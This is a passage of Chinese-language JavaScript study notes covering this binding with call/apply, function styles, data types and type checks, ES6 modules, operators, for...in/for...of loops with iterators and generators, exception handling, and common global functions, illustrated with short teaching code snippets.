JavaScript 函数的 `this` 默认由调用方式决定（如直接调用时 `this` 可能是 `window` 或 `undefined`）。通过 `call` 或 `apply` 可以强制将 `this` 绑定到特定对象。

```javascript
function sayHello(name){
    console.log(`hello ${name}, age ${this.age}`)
}

let obj = {age: 20};

sayHello.call(obj, "jackson")
```

1. **借用方法**
通过 `call`/`apply` 可以借用其他对象的方法

```javascript
const person1 = {
    name : 'jack',
    sayHello(){
        console.log(`hello ${this.name}`);
    }
}
const person2 = {
    name : 'lucy'
}
// person2借助person1的sayHello方法。
person1.sayHello.call(person2);
```

再例如借用数组方法处理**类数组对象**：

```javascript
const arrayLike = { 0: 'a', 1: 'b', length: 2 };
// Array是JS内置的类型（这里的类型又叫做函数对象），代表数组
// 函数对象.prototype 获取的是该 函数对象 对应的原型对象。
// 原型对象上有 所有对象/实例共享的属性和方法。
// JS中任何一个函数对象上都有prototype属性，用该属性来获取原型对象。（原型对象的存在主要是为了共享属性/方法。）
// 注意：只有   函数对象  才有 prototype 属性
// 对于普通对象来说，普通对象都有 __proto__ 这个私有属性，它和通过  函数对象.prototype 获取的是同一个对象。
Array.prototype.push.call(arrayLike, 'c'); // { 0: 'a', 1: 'b', 2: 'c', length: 3 }
```

#### `call` 和 `apply` 的区别

- `call`：参数逐个传递，逗号分隔。

```javascript
func.call(thisArg, arg1, arg2, arg3);
```

- `apply`：参数通过数组（或类数组）传递。

```javascript
func.apply(thisArg, [arg1, arg2, arg3]);
```

## 函数参数

- 可以接受零个或多个参数
- 参数可以有默认值（ES6+）
- 可以使用剩余参数（...）处理不定数量参数

示例：

```javascript
function logger(message, level = 'info'){
    console.log(`${level}:${message}`);
}
// 调用函数
logger('用户正在登录');

function sum(...numbers) {
  let result = 0;
  for(let i = 0; i < numbers.length; i++){
    result += numbers[i];
  }
  return result;
}
```

## 函数定义方式的选择

在 JavaScript 中，**函数声明**、**函数表达式** 和 **箭头函数** 各有适用场景，选择哪种方式取决于具体需求。以下是详细的选择建议：

### 函数声明

- **需要函数提升**：函数声明会提升到作用域顶部，可以在定义前调用。

```javascript
greet('Alice'); // 正常执行（函数提升）
function greet(name) { console.log(`Hello, ${name}`); }
```

- **需要命名函数（便于调试或递归）**：函数声明必须有名称，堆栈跟踪更清晰。

```javascript
function factorial(n) {
  return n <= 1 ? 1 : n * factorial(n - 1); // 递归调用
}
```

### 函数表达式

- **需要动态赋值或条件性定义**：

```javascript
let isMorning = false;
const greet = isMorning ? function() { console.log('Good morning!') } : function() { console.log('Hello!') };
```

- **作为回调函数或立即调用（IIFE）**：

```javascript
// setTimeout是JS内置的全局函数，用来设置延迟多长时间执行哪个函数
// 语法格式：setTimeout(回调函数, 延迟多长时间单位毫秒);
setTimeout(function() { console.log('Delayed'); }, 1000);

// 立即调用函数表达式：定义后立即执行。
(function(){console.log('IIFE');})();
```

- **避免函数提升**：希望函数在定义后才能被调用（更严格的代码组织）。

### 箭头函数

**需要简洁的单行函数**：

```javascript
const double = x => x * 2;
```

---

**什么时候使用箭头函数？需要继承外层 **`this`**的时候：你需要记住，箭头函数中的 this 永远继承的是外层作用域的 this，而普通函数有自己的 this 绑定。**

箭头函数解决的经典问题：

普通函数 this 丢失

```javascript
const obj = {
  name: "Alice",
  sayName: function() {
    setTimeout(function() {
      console.log(this.name); // ❌ undefined (this 指向 window)
    }, 100);
  }
};
obj.sayName(); // 输出: undefined
```

箭头函数 this 保持

```javascript
const obj = {
  name: "Alice", 
  sayName: function() {
    setTimeout(() => {
      console.log(this.name); // ✅ "Alice" (this 指向 obj)
    }, 100);
  }
};

obj.sayName(); // 输出: "Alice"
```

# JavaScript数据类型


在 JavaScript 中，数据类型可以分为 **基本数据类型（Primitive Types）** 和 **引用数据类型（Reference Types）** 两大类：

## 基本数据类型

基本数据类型是按值访问的，存储在栈内存中，具有不可变性。

### `Number`

表示数字，包括整数和浮点数（如 `42`、`3.14`），以及特殊值 `NaN`（非数字）、`Infinity`（无穷大）。

```javascript
let num = 10;
let nan = NaN; // 虽然 typeof NaN 返回 "number"，但它代表非数字
```

当计算结果应该是数字，但实际的计算结果不是数字时，结果是NaN。

当除数是0时，计算结果是Infinity。

### `String`

表示文本（如 `"hello"`），可以用单引号、双引号或反引号（模板字符串）定义。

```javascript
let str = "Hello";
let template = `ES6`;
```

模板字符串支持插入变量值，语法如下：

```javascript
let username = 'jackson';
let content = `username = ${username}`;
```

### `Boolean`

表示逻辑值 `true` 或 `false`。

```javascript
let isTrue = true;
```

### `Undefined`

表示变量已声明但未赋值时的默认值（`undefined`）。

```javascript
let x;
console.log(x); // undefined
```

### `Null`

表示空值（`null`），通常用于显式的清空变量。
注意：`typeof null` 返回 `"object"`（**历史遗留问题：虽然结果是object，但仍然归类到基本数据类型范畴**）。

```javascript
let empty = null;
```

### `Symbol`（ES6 新增）

表示唯一的、不可变的值，通常用作对象属性的键。

```javascript
let sym = Symbol("unique");
```

### `BigInt`（ES2020 新增）

表示任意精度的整数，用于超出 `Number` 安全范围的大整数（后缀加 `n`）。

```javascript
let bigNum = 9007199254740991n;
```

## 引用数据类型

引用数据类型是按引用访问的，存储在堆内存中，变量保存的是内存地址。

### `Object`

Object 是所有引用类型的基类，包括以下子类型：

- **普通对象**：`{}`

```javascript
let obj = { name: "Alice" };
```

- **数组** `Array`：`[]`

```javascript
let arr = [1, 2, 3];
```

- **函数** `Function`： 函数是一种特殊的引用数据类型。其 typeof 的结果不是"object"，而是"function"。

```javascript
function greet() { console.log("Hi!"); }
```

- **日期** `Date`、**正则表达式** `RegExp`、**包装对象**（如 `new Number()`）等。

## 关键区别

| **特性** | **基本数据类型** | **引用数据类型** |
| --- | --- | --- |
| 存储方式 | 栈内存（直接存储值） | 堆内存（存储地址） |
| 可变性 | 不可变（值本身） | 可变（可修改属性） |
| 比较 | 按值比较（`1 === 1`） | 按引用比较（`{} === {}`结果是 false，`{}=={}`结果还是 false。） |
| 复制时的行为 | 复制值 | 复制地址（浅拷贝） |

## 类型检测方法

### `typeof`

适用于基本类型（除 `null` 外），但对引用类型（如数组、对象）均返回 `"object"`。

```javascript
typeof 42;          // "number"
typeof "hello";     // "string"
typeof {};          // "object"
typeof [];          // "object" （注意！）
typeof null;        // "object" （历史遗留问题）
```

`typeof`运算符的结果是以下8个小写字符串中的一个：

(1) "number"

(2) "string"

(3) "undefined"

(4) "boolean"

(5) "object"

(6) "function"

(7) "bigint"

(8) "symbol"

### `instanceof`

不适用于基本类型

```javascript
[] instanceof Array;    // true
{} instanceof Object;   // true

const fn = () => {};
console.log(fn instanceof Object)  // true
console.log(fn instanceof Function)  // true
```

### `Array.isArray()`

专门检测数组

```javascript
Array.isArray([]); // true
```

### `Object.prototype.toString.call()`

最可靠的类型检测方法（返回 `[object Type]`）。

```javascript
console.log(Object.prototype.toString.call(1)); // '[object Number]'
console.log(Object.prototype.toString.call('jack')); // '[object String]'
console.log(Object.prototype.toString.call(true)); // '[object Boolean]'
console.log(Object.prototype.toString.call(undefined)); // '[object Undefined]'
console.log(Object.prototype.toString.call(null)); // '[object Null]'
console.log(Object.prototype.toString.call(Symbol('username'))); // '[object Symbol]'
console.log(Object.prototype.toString.call(11111111111111111111111n)); // '[object BigInt]'

const fn = () => {}
console.log(Object.prototype.toString.call(fn)); // '[object Function]'
console.log(Object.prototype.toString.call([])); // '[object Array]'
console.log(Object.prototype.toString.call({})); // '[object Object]'
```

# ES6的模块化


## 模块化是什么

**模块化** 就是把代码拆分成多个独立的文件（模块），每个模块负责一个特定的功能，然后通过导入（`import`）和导出（`export`）来组合使用。这样可以：

- **避免变量污染**（比如全局变量冲突）。
- **提高代码复用性**（一个模块可以被多个地方使用）。
- **方便维护**（修改一个模块不影响其他部分）。

## 举个最简单的例子

### 定义一个模块（`math.js`）

```javascript
// math.js - 定义一个计算模块
export function add(a, b) {  // 导出 add 函数
  return a + b;
}

export const PI = 3.14;      // 导出 PI 常量
```

### 使用模块（`main.js`）

```javascript
// main.js - 导入并使用 math.js 的功能
import { add, PI } from './math.js';  // 从 math.js 导入 add 和 PI

console.log(add(2, 3));  // 输出: 5
console.log(PI);         // 输出: 3.14
```

### 在 HTML 中加载模块

```html
<script type="module" src="main.js"></script>
<!-- 必须加上 type="module" -->
```

### VS Code安装Live Server插件

本地测试JS模块化时需要启动一个 **HTTP 服务器**（如 VS Code 的 Live Server），直接打开文件会报跨域错误。

在VS Code中搜索`Live Server`插件，然后运行程序时：`右键`->`Open with Live Server`

## 默认导出和导入

```javascript
// 默认导出(一个文件中默认导出只能有一个)
export default {
    name: 'jack'
}
```

```javascript
// 默认导入: import 后面的变量名是可以随便起名的，变量名不能使用花括号。
import userObj from './user.js';

// 使用
console.log(userObj.name);
```

## 命名导出和导入

```javascript
// 命名导出
export const user = {
    name: 'jackson'
}

// 或者这样写，但必须添加大括号
function sayHello(){
  console.log("hello js!");
}
export {sayHello};
```

```javascript
// 命名导入: import 后面的变量名不能随便写（必须使用导出的那个变量名），而且还必须使用花括号包裹。
import {user, sayHello} from './user.js';

// 使用
console.log(user.name);
sayHello();
```

另外，命名导入的时候支持重命名导入，例如以下代码：

```javascript
// 重命名导入
import {user as myUser} from './math.js';

// 使用
console.log(myUser.name);
```

## 统一导出

"统一导出"中的 "统一" 主要体现在 集中管理多个模块的导出，通常通过一个 **入口文件（如 index.js 或 index.ts）** 将分散的模块导出统一组织起来，方便外部使用。

重新导出其它模块的内容：

```javascript
export { Button } from './Button.js';
export { Input } from './Input.js';
export { Card } from './Card.js';
```

导入时可以使用：

```javascript
import { Button, Input, Card } from './index.js';
```

## 将导入的所有命名封装为一个对象

导出：

```javascript
export let name = 'jackson';
export let age = 20;
```

导入：

```javascript
import * as user from './user.js';

console.log(user.name, user.age);
```

## 混合默认导入和命名导入

```javascript
import defaultExport, { namedExport1, namedExport2 } from './module.js';
```

## 仅导入模块

如果你只想执行模块的代码，但不导入任何内容时，可以这样做：

```javascript
import './some-module.js';
```

## 关键点总结

1. `export`：在模块中声明哪些内容可以被其他文件使用。
2. `import`：从其他模块引入需要的功能。
3. `type="module"`：告诉浏览器这是一个模块化脚本，支持 `import/export`。

# JavaScript运算符


JavaScript 运算符可以分为以下几大类：

## 算术运算符

- `+` 加法
- `-` 减法
- `*` 乘法
- `/` 除法
- `%` 取模（余数）
- `******`** 指数（ES2016）【比如2的3次方，可以使用**`**2 ** 3**`**来计算。以前是版本是调用**`**Math.pow(2, 3)**`**函数】**
- `++` 递增
- `--` 递减
- `+` 一元正号
- `-` 一元负号

## 赋值运算符

- `=` 赋值
- `+=` 加法赋值
- `-=` 减法赋值
- `*=` 乘法赋值
- `/=` 除法赋值
- `%=` 取模赋值
- `**=` 指数赋值
- `<<=` 左移赋值
- `>>=` 右移赋值
- `>>>=` 无符号右移赋值
- `&=` 按位与赋值
- `|=` 按位或赋值
- `^=` 按位异或赋值
- `&&=` 逻辑与赋值（ES2021）
- `||=` 逻辑或赋值（ES2021）
- `**<font style="color:#DF2A3F;">??=</font>**`** 逻辑空赋值（ES2021） **`**<font style="color:#DF2A3F;">x = x ?? y;</font>**`**含义是：如果**`**<font style="color:#DF2A3F;">x</font>**`**是**`**<font style="color:#DF2A3F;">null</font>**`**或者**`**<font style="color:#DF2A3F;">undefined</font>**`**，就把**`**<font style="color:#DF2A3F;">y</font>**`**赋值给**`**<font style="color:#DF2A3F;">x</font>**`**。**

## 比较运算符

- `**<font style="color:#DF2A3F;">==</font>**`** 等于**
- `**<font style="color:#DF2A3F;">===</font>**`** 严格等于（既比较值又比较数据类型，开发中建议使用严格等于。）**
- `**<font style="color:#DF2A3F;">!=</font>**`** 不等于**
- `**<font style="color:#DF2A3F;">!==</font>**`** 严格不等于**
- `>` 大于
- `<` 小于
- `>=` 大于等于
- `<=` 小于等于

## 逻辑运算符

- `&&` 逻辑与
- `||` 逻辑或
- `!` 逻辑非
- `**<font style="color:#DF2A3F;">??</font>**`** 空值合并（ES2020）**

```javascript
const result = a ?? b;
```

当`a`是`null`或`undefined`时，将`b`赋值给`result`，如果不是则将`a`赋值给`result`

代替三元运算符。

## 位运算符

- `&` 按位与
- `|` 按位或
- `^` 按位异或
- `~` 按位非
- `<<` 左移
- `>>` 有符号右移
- `>>>` 无符号右移

## 字符串运算符

- `+` 连接运算符
- `+=` 连接赋值

## 条件（三元）运算符

- `? :` 三元运算符

## 逗号运算符

逗号运算符（`<font style="color:rgb(64, 64, 64);">,</font>`）是 JavaScript 中的一个特殊运算符，它允许**在一个语句中执行多个表达式**，并**返回最后一个表达式的值**。

基本用法

```javascript
let a = (1, 2, 3);
console.log(a); // 3（返回最后一个表达式的值）
```

在变量声明中使用

```javascript
let x = 1, y = 2, z = 3; // 这是变量声明列表，不是逗号运算符
let a = (x++, y++, z++); // 这才是逗号运算符
console.log(a); // 3（z++的返回值）
console.log(x, y, z); // 2, 3, 4  （这里的逗号不是逗号运算符，是参数分隔符。）
```

在return语句中使用

```javascript
function test() {
  return (console.log('A'), console.log('B'), 'Result');
}
console.log(test());
// 输出：
// A
// B
// Result
```

**在箭头函数中简化代码**

```javascript
const process = (a, b) => (console.log(a), console.log(b), a + b);
console.log(process(2, 3));
// 输出：
// 2
// 3
// 5
```

## 一元运算符

### `delete` 删除对象属性

`<font style="color:rgb(64, 64, 64);">delete</font>` 运算符用于删除对象的属性或数组的元素。它的主要作用是移除对象中指定的属性，如果删除成功会返回 `<font style="color:rgb(64, 64, 64);">true</font>`，否则返回 `<font style="color:rgb(64, 64, 64);">false</font>`。

语法：

```javascript
delete object.property
delete object['property']
delete array[index]
```

特点：

1. 用于删除对象的属性
2. 删除成功后返回 `<font style="color:rgb(64, 64, 64);">true</font>`
3. 不能删除变量、函数或不可配置的属性
4. 删除数组元素时，会将该位置变为 `<font style="color:rgb(64, 64, 64);">empty</font>`（长度不变）

删除对象属性：

```javascript
const person = {
  name: '张三',
  age: 30,
  job: '工程师'
};

console.log(person); // {name: "张三", age: 30, job: "工程师"}

delete person.age; // 删除age属性

console.log(person); // {name: "张三", job: "工程师"}
// in 运算符（in operator）。它专门用于检查对象上是否存在指定的属性。
console.log('age' in person); // false
```

删除数组元素：

```javascript
const fruits = ['苹果', '香蕉', '橙子'];

console.log(fruits); // ["苹果", "香蕉", "橙子"]
console.log(fruits.length); // 3

// 只是删除索引 1 的值，但不改变数组长度
// 被删除的位置变成 "empty"
// forEach 遍历时，跳过空元素
// for循环访问所有索引，不会跳过空元素
delete fruits[1]; // 删除索引为1的元素

console.log(fruits); // ["苹果", empty, "橙子"]
console.log(fruits.length); // 3 (长度不变)
console.log(fruits[1]); // undefined

// 真正删除数组元素，建议调用数组的splice方法
let arr = [1, 2, 3, 4];
arr.splice(1, 2); // 从1下标开始删除，删除2个。
```

### `typeof` 返回变量类型

`typeof`运算符在程序运行阶段动态获取变量的数据类型，运行结果是全部小写的字符串，是以下8个结果之一：

1. "number"
2. "string"
3. "boolean"
4. "undefined"
5. "object"
6. "function"
7. "bigint"
8. "symbol"

### `void` 求值表达式并返回undefined

阻止链接的默认行为：在HTML中，通常点击链接会导航到另一个页面。使用void运算符可以阻止这种默认行为，例如：`<a href="javascript:void(0);">Click me</a>`。这样点击链接时不会导致页面跳转，而是执行一些JavaScript代码

### `in` 检查对象是否有指定的属性

JavaScript 中的 in 运算符用于检查对象中是否存在指定的属性。这个运算符可以用于检查对象的自有属性或者继承的属性。

```javascript
function Person(name, age) {
  this.name = name;
  this.age = age;
}
 
Person.prototype.greet = function() {
  console.log("Hello, my name is " + this.name);
};
 
const alice = new Person("Alice", 25);
 
console.log("name" in alice); // 输出: true
console.log("age" in alice); // 输出: true
console.log("greet" in alice); // 输出: true，因为 greet 是通过原型继承的属性
```

**使用 hasOwnProperty() 方法与 in 的区别：hasOwnProperty() 方法用于检查对象自身属性中是否存在指定的属性，而不检查原型链。**

```javascript
console.log(alice.hasOwnProperty("name")); // true
console.log(alice.hasOwnProperty("greet")); // false
```

### `instanceof` 检查对象是否是某构造函数的实例

```javascript
function Car(make, model) {
    this.make = make;
    this.model = model;
}
 
const myCar = new Car('Toyota', 'Corolla');
 
console.log(myCar instanceof Car); // 输出：true
console.log(myCar instanceof Object); // 输出：true，因为所有对象都是Object的实例
console.log(myCar instanceof Date); // 输出：false，因为myCar不是Date的实例
```

## 展开运算符（ES2015）

`...` 展开语法

数组的合并

```javascript
let arr1 = [1, 2, 3];
let arr2 = [4, 5, 6];
let combined = [...arr1, ...arr2]; // [1, 2, 3, 4, 5, 6]
```

对象的合并

```javascript
let obj1 = { a: 1, b: 2 };
let obj2 = { b: 3, c: 4 };
let merged = { ...obj1, ...obj2 }; // { a: 1, b: 3, c: 4 }
```

## 可选链运算符（ES2020）

`?.` 可选链

如果我们想要安全地访问`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">user</font>`的`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">address</font>`的`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">street</font>`属性，我们可以使用可选链运算符：

```javascript
const street = user.address?.street;
console.log(street);
```

如果`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">user.address</font>`是`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">null</font>`或`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">undefined</font>`，那么表达式会立即返回`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">undefined</font>`，而不会抛出错误。

也可以使用可选链调用方法：

```javascript
const name = user.getName?.(); 
console.log(name);
```

如果`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">user</font>`是`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">null</font>`或`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">undefined</font>`，那么表达式会立即返回`<font style="color:rgb(51, 51, 51);background-color:rgb(237, 238, 240);">undefined</font>`，而不会抛出错误。

## 其他运算符

- `new` 创建实例
- `yield` 暂停/恢复生成器函数
- `async/await` 等待Promise

# JavaScript控制语句


JavaScript 中的控制语句可以分为以下几类：

## 条件语句

- `if` 语句
- `if...else` 语句
- `if...else if...else` 语句
- `switch` 语句

## 循环语句

- `for` 循环
- `for...in` 循环 (遍历对象属性)
- `for...of` 循环 (遍历可迭代对象)
- `while` 循环
- `do...while` 循环

### for...in 循环

`for...in` 语句用于遍历对象的可枚举属性（包括继承的可枚举属性）。

#### 基本语法

```javascript
for (variable in object) {
  // 执行的代码
}
```

#### 特点

- 遍历对象自身的和继承的可枚举属性（不仅遍历自身属性，还会遍历原型链上的可枚举属性）
- 遍历顺序不固定（依赖于 JavaScript 引擎实现）
- 不适合遍历数组（会遍历数组的所有可枚举属性，包括非数字键）

```javascript
let arr = ['jack', 'lucy', true, false];
arr.someProperty = 'value';

for(var index in arr){
    console.log(index);
}
```

运行结果如下：



数组的遍历方式推荐：传统的 for 循环，或者 forEach 方法，或者 for..of 循环。

#### 遍历对象属性示例

```javascript
const obj = {a: 1, b: 2, c: 3};

for (const key in obj) {
  console.log(key); // 输出 'a', 'b', 'c'
  console.log(obj[key]); // 输出 1, 2, 3
}
```

### for...of 循环

`for...of` 语句用于遍历可迭代对象（如 Array, Map, Set, String, TypedArray, arguments 等）的值。

#### 基本语法

```javascript
for (variable of iterable) {
  // 执行的代码
}
```

#### 特点

- 遍历可迭代对象的值
- 不会遍历对象的属性
- 是 ES6 新增的语法
- 可以配合 break, continue 和 return 使用

#### 什么是可迭代对象

1. 所有的可迭代的对象都实现了 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">[Symbol.iterator]</font>**` 方法。看看这个代码的执行结果是否为 true：`<font style="color:rgb(64, 64, 64);">typeof obj[Symbol.iterator] === 'function'</font>`，如果是 true 则表示该对象是可迭代对象。
2. 怎么让一个不可迭代的对象，变成可迭代的？可以让该对象实现 `<font style="color:rgb(64, 64, 64);">[Symbol.iterator]</font>`方法。代码如下：

```javascript
const myObject = {
  data: [10, 20, 30],
  [Symbol.iterator]() {
    let index = 0;
    // 要想符合迭代器协议，必须return一个含有next()的迭代器对象。以下就是返回一个带有next()方法的迭代器对象。
    return {
      // 这里需要使用箭头函数，因为只有这样才能保证this指向myObject。
      next: () => {
        if (index < this.data.length) {
          // 迭代器协议中规定，next()方法的对象需要包含两个属性：value，done。
          return { value: this.data[index++], done: false };
        } else {
          // 当done:true时，value可以省略。
          // done:true 表示已经迭代完了。
          return { done: true };
        }
      }
    };
  }
};

// 现在可以用 for...of 遍历
for (const value of myObject) {
  console.log(value); // 10, 20, 30
}


// 迭代对象的属性。
let user = {
  username: "jack",
  age: 20,
  [Symbol.iterator]() {
    let keys = Object.keys(this);
    let index = 0;

    return {
      next: () => {
        if (index < keys.length) {
          let key = keys[index++];
          return { value: `${key}: ${this[key]}`, done: false };
        }
        return { value: undefined, done: true };
      },
    };
  },
};

for (let value of user) {
  console.log(value);
}
```

以上代码也可以使用生成器函数来简化代码：

```javascript
const myObject = {
  data: [10, 20, 30, 40],
  [Symbol.iterator]: function* () { // 使用 * 表示这是一个生成器函数
    for (const item of this.data) {
      yield item; // 每次迭代返回一个值
    }
  }

  /*
  // 或者这样写
  *[Symbol.iterator]() {
    for (const item of this.data) {
      yield item; // 每次迭代返回一个值
    }
  }
  */

};

for (const value of myObject) {
  console.log(value); // 10, 20, 30
}

// 简写形式
let user = {
  username: "jack",
  age: 20,
  [Symbol.iterator]: function* () {
    for (let v in this) {
      yield this[v];
    }
  },
};

for (let value of user) {
  console.log(value);
}

// 再次简写
let user = {
  username: "jack",
  age: 20,
  *[Symbol.iterator]() {
    for (let v in this) {
      yield this[v];
    }
  },
};

for (let value of user) {
  console.log(value);
}
```

`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">function*</font>**` 是生成器函数的标志

```javascript
// 生成器函数
function* generator(){
    yield 1;
    yield 2;
    yield 3;
}
// 获取迭代器对象
const gen = generator();
// 通过迭代器对象来取值(根据迭代器协议：所有迭代器对象都有next()方法，并且next()方法的执行结果是一个含有value和done属性的对象，done为true时表示已迭代完毕。)
console.log(gen.next().value);
console.log(gen.next().value);
console.log(gen.next().value);
```

`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">yield</font>**` 可以理解为 **"暂停并返回值"，**每次调用生成器的 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">.next()</font>**` 方法时，函数会执行到下一个 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">yield</font>**` 处暂停，`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">yield</font>**` 后面的表达式会被作为返回值

#### 示例

```javascript
const arr = ['a', 'b', 'c'];

for (const value of arr) {
  console.log(value); // 输出 'a', 'b', 'c'
}
```

### 主要区别

| **特性** | **for...in** | **for...of** |
| --- | --- | --- |
| 遍历对象 | 对象的可枚举**属性** | 可迭代对象的**值** |
| 适用对象 | 普通对象 | 数组、字符串、Map、Set等 |
| 遍历内容 | 属性名（键名） | 属性值（元素值） |
| 原型链属性 | 会遍历继承的可枚举属性 | 不会遍历 |
| 数组使用 | 不推荐（会遍历非数字键） | 推荐 |

### 补充示例

```javascript
// 数组 - for...in vs for...of
const arr = [3, 5, 7];
arr.foo = 'hello';

for (let i in arr) {
  console.log(i); // 输出 "0", "1", "2", "foo"
}

for (let i of arr) {
  console.log(i); // 输出 3, 5, 7
}

// 字符串遍历
const str = "hello";
for (const char of str) {
  console.log(char); // 输出 'h', 'e', 'l', 'l', 'o'
}
```

理解这两种循环的区别对于编写清晰、高效的 JavaScript 代码非常重要。

## 跳转语句

- `break` 语句
- `continue` 语句
- `return` 语句 (在函数中)

# JavaScript 异常处理


异常处理是 JavaScript 编程中的重要概念，它能帮助我们优雅地处理程序运行中可能出现的错误情况。本文将从基础语法角度，详细介绍 JavaScript 中的异常处理机制。

## 异常处理的基本概念

### 什么是异常

异常（Exception）是指程序执行过程中出现的意外情况，它会打断代码的正常执行流程。例如：

```javascript
const num = 10;
console.log(num.toUpperCase()); // TypeError: num.toUpperCase is not a function
```

### 错误类型

JavaScript 中有几种常见的错误类型：

- **Error**：通用错误类型，所有其他错误类型的基类
- **SyntaxError**：语法错误
- **ReferenceError**：引用未定义的变量
- **TypeError**：类型错误（如调用不存在的方法）
- **RangeError**：数值超出有效范围
- **URIError**：URI 处理函数使用不当

## 基础异常处理语法

### try-catch 语句

`try-catch` 是 JavaScript 中最基本的异常处理结构：

```javascript
try {
  // 可能出错的代码
  const result = riskyOperation();
  console.log(result);
} catch (error) {
  // 出错时执行的代码
  console.log('发生错误:', error.message);
}
```

**ES6+新语法：**`**<font style="color:#DF2A3F;">try...catch</font>**`** 可选的绑定 (ES2019)**

```javascript
try {
  // 可能抛出异常的代码
} catch {  // 注意：这里没有 error 参数
  // 仍然可以处理错误，但无法访问错误对象
  console.log('发生了错误，但不知道具体是什么错误');
}
```

### finally 语句

`finally` 块中的代码无论是否发生异常都会执行：

```javascript
try {
  console.log('尝试执行');
  const data = JSON.parse('无效的JSON');
} catch (error) {
  console.log('捕获到错误:', error.message);
} finally {
  console.log('这部分总会执行');
}
```

### throw 语句

使用 `throw` 可以主动抛出异常：

```javascript
function checkAge(age) {
  if (age < 0) {
    throw new Error('年龄不能为负数');
  }
  if (age < 18) {
    throw new Error('未满18岁');
  }
  return '验证通过';
}

try {
  checkAge(-5);
} catch (error) {
  console.log(error.message); // "年龄不能为负数"
}
```

## Error 对象属性

Error 对象的主要属性：

```javascript
try {
  notDefinedFunction();
} catch (err) {
  console.log(err.name);     // "ReferenceError"
  console.log(err.message);  // "notDefinedFunction is not defined"
  console.log(err.stack);    // 堆栈跟踪信息（调试用）
}
```

## 自定义异常

### 创建自定义异常类

JavaScript 通过继承 `Error` 类来实现自定义异常：

```javascript
class MyCustomError extends Error {
  constructor(message, extraInfo) {
    super(message);  // 调用父类构造函数
    this.name = 'MyCustomError';  // 设置错误名称
    this.extraInfo = extraInfo;  // 添加自定义属性
    this.timestamp = new Date();  // 添加时间戳
  }
  
  logError() {
    console.error(`[${this.timestamp}] ${this.name}: ${this.message}`);
  }
}
```

### 使用自定义异常

```javascript
function validateInput(input) {
  if (!input) {
    throw new MyCustomError('输入不能为空', { code: 'EMPTY_INPUT' });
  }
  if (input.length < 5) {
    throw new MyCustomError('输入太短', { code: 'TOO_SHORT', minLength: 5 });
  }
}

try {
  validateInput('abc');
} catch (err) {
  if (err instanceof MyCustomError) {
    err.logError();  // 调用自定义方法
    console.log('额外信息:', err.extraInfo);
  } else {
    console.error('其他错误:', err);
  }
}
```

# JavaScript常用全局函数


以下是 JavaScript 中可以直接调用的**全局函数**（不依赖任何对象，属于全局作用域），包括 **ECMAScript 标准函数** 和 **浏览器环境提供的函数**，并附带简单示例：

## ECMAScript 标准全局函数

### 类型转换函数

| **函数** | **作用** | **示例** |
| --- | --- | --- |
| `Boolean(value)` | 将值转为布尔类型 | `Boolean(0) → false` |
| `Number(value)` | 将值转为数字类型 | `Number("123") → 123` |
| `String(value)` | 将值转为字符串类型 | `String(true) → "true"` |
| `BigInt(value)` | 将值转为大整数（ES2020） | `BigInt("100") → 100n` |
| `Symbol(desc)` | 创建唯一 Symbol（ES2015） | `Symbol("id") → Symbol(id)` |

### 数值处理函数

| **函数** | **作用** | **示例** |
| --- | --- | --- |
| `parseInt(string)` | 字符串转整数（可指定进制） | `parseInt("10px") → 10` |
| `parseFloat(string)` | 字符串转浮点数 | `parseFloat("3.14cm") → 3.14` |
| `isNaN(value)` | 检查是否为 `NaN` | `isNaN("abc") → true` |
| `isFinite(value)` | 检查是否为有限数字 | `isFinite(Infinity) → false` |

### URI 编码/解码函数

用于URL中特殊字符的安全编码与解码，避免传输错误。主要用于处理URL中的中文、空格等特殊字符，确保网络传输的可靠性

encodeURI用于编码完整URL，保留URL结构字符（:/?#[]@等）

encodeURIComponent用于编码URL部件，编码所有特殊字符

JavaScript中所有URI编码/解码函数都固定采用UTF-8字符集

| **函数** | **作用** | **示例** |
| --- | --- | --- |
| `encodeURI(uri)` | 编码完整 URI | `encodeURI("https://测试.com")` |
| `decodeURI(encodedURI)` | 解码完整 URI | `decodeURI("https://%E6%B5%8B%E8%AF%95.com")` |
| `**<font style="color:#DF2A3F;">encodeURIComponent(str)</font>**` | **编码 URI 组件。** | `**<font style="color:#DF2A3F;">encodeURIComponent("?x=测试") → "%3Fx%3D%E6%B5%8B%E8%AF%95"</font>**` |
| `**<font style="color:#DF2A3F;">decodeURIComponent(encodedStr)</font>**` | **解码 URI 组件。** | `**<font style="color:#DF2A3F;">decodeURIComponent("%3Fx%3D测试") → "?x=测试"</font>**` |

### 其他 ECMAScript 全局函数

| **函数** | **作用** | **示例** |
| --- | --- | --- |
| `eval(string)` | 执行字符串代码（危险！） | `eval("1 + 1") → 2` |

## 浏览器环境提供的全局函数

### 定时器函数

| **函数** | **作用** | **示例** |
| --- | --- | --- |
| `setTimeout(callback, delay)` | 延迟执行一次 | `setTimeout(() => alert("Hi"), 1000)` |
| `setInterval(callback, delay)` | 循环执行 | `setInterval(() => console.log("Tick"), 1000)` |
| `clearTimeout(timeoutID)` | 取消 `setTimeout` | `let timer = setTimeout(...); clearTimeout(timer)` |
| `clearInterval(intervalID)` | 取消 `setInterval` | `let timer = setInterval(...); clearInterval(timer)` |

### 浏览器弹窗函数

| **函数** | **作用** | **示例** |
| --- | --- | --- |
| `alert(message)` | 显示警告弹窗 | `alert("Hello!")` |
| `prompt(message)` | 显示输入弹窗 | `prompt("Your name?") → 返回用户输入的信息` |
| `confirm(message)` | 显示确认弹窗 | `confirm("Delete?") → true/false` |

# JavaScript常用内置对象


## Object 的常用方法

